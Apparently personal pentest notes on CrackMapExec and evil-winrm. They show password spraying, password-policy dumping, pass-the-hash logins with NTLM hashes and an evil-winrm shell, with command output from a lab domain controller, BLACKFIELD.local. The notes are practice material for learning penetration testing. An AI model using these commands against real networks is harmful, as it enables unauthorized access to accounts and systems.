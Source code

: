 - [Installation](#installation)

## [Installation](#installation-1)
```sh
python3 -m pip install pipx
git clone https://github.com/mpgn/CrackMapExec
cd CrackMapExec
pipx install .
```

### TL;DR
```sh
cme smb $ip -u users.txt -p sT333ve2
cme smb $ip -u users.txt -p sT333ve2 --continue-on-success
```

### [Dump password policy with "--pass-pol"](#dump-password-policy-with---pass-pol-1)
cme smb $ip -u support -p '#00^BlackKnight' --pass-pol

### [Pass-the-Hash (PtH) with "-H"](#pass-the-hash-pth-with--h--successful)
cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

### [Pass the hash (PtH)](https://attack.mitre.org/techniques/T1550/002/)
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password.

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [PtH with evil-winrm](#pth-with-evil-winrm-1)
evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d


```
--continue-on-success
                        continues authentication attempts even after successes
```


## CrackMapexec v5.4.0 (2023.1-3) doesn't work well. Update latest version manually
```sh
$ cat /etc/os-release 
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2023.3"
VERSION="2023.3"
...
```

### Installation

https://github.com/mpgn/CrackMapExec

https://wiki.porchetta.industries/getting-started/installation

https://wiki.porchetta.industries/getting-started/installation/installation-on-unix

```

```

### 
```

```

### Examples
### Dump password policy with "--pass-pol"
```sh
$ cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Dumping password info for domain: BLACKFIELD
SMB         10.10.10.192    445    DC01             Minimum password length: 7                                                                                         
SMB         10.10.10.192    445    DC01             Password history length: 24                                                                                        
SMB         10.10.10.192    445    DC01             Maximum password age: 41 days 23 hours 53 minutes                                                                  
SMB         10.10.10.192    445    DC01                                                                                                                                
SMB         10.10.10.192    445    DC01             Password Complexity Flags: 000001                                                                                  
SMB         10.10.10.192    445    DC01                 Domain Refuse Password Change: 0                                                                               
SMB         10.10.10.192    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.10.192    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Complex: 1
SMB         10.10.10.192    445    DC01             
SMB         10.10.10.192    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.10.192    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.192    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.10.192    445    DC01             Account Lockout Threshold: None
SMB         10.10.10.192    445    DC01             Forced Log off Time: Not Set
```

### Pass-the-Hash (PtH) with "-H" ; STATUS_LOGON_FAILURE
```sh
$ cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```

### Pass-the-Hash (PtH) with "-H" ; Successful
```sh
$ cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

### WINRM Pwn3d!
```sh
$ cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

### [PtH with evil-winrm](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
```sh
$ evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

### 
```

```

https://pypi.org/project/crackmapexec/

# CrackMapexec | SMB & AD Enumeration Simplified !]
https://systemweakness.com/crackmapexec-smb-ad-enumeration-simplified-21e603927f44

https://wiki.porchetta.industries/

https://ptestmethod.readthedocs.io/en/latest/cme.html

https://github.com/Porchetta-Industries/CrackMapExec/wiki/SMB-Command-Reference